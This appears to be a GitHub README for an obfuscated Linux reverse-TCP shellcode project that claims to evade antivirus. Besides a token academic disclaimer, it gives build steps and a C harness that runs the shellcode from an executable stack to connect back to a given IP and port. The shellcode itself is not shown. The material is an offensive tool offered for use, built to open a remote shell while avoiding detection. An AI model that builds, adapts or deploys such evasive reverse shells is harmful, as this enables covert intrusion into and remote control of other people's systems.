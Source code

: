 # Reverse_tcp-Shellcode-Linux
Best reverse_tcp shellcode for linux on github, undetectable, garanty no nullbytes.

## /!\ Disclaimer /!\

This repository is for academic purposes, the use of this software is your responsibility.  
Its forbidden to use it in any illegal ways  

## Overview

This is a reverse_tcp shellcode that you can use in C.  
Its garanty no nullbytes, you can safely strlen, strcpy on it.  
Can't be detected by AVs.  
You'll need execstack to build it, to make the stack executable.  
Source code in `shellcode.asm`  full of obfuscations.
  
### Build
Take a look at build.sh  
```sh
    $ ./build.sh
```

### Example

```c
    #include "shellcode.h"

    int main(void)
    {
        unsigned char reverse_tcp[sizeof(shellcode)];

        memcpy(reverse_tcp, shellcode, sizeof(shellcode));

        void (*funcptr)(unsigned int, unsigned short) = (void (*)(unsigned int,  short unsigned int))reverse_tcp;

        funcptr(inet_addr("127.0.0.1"), htons(2626));
    }
```

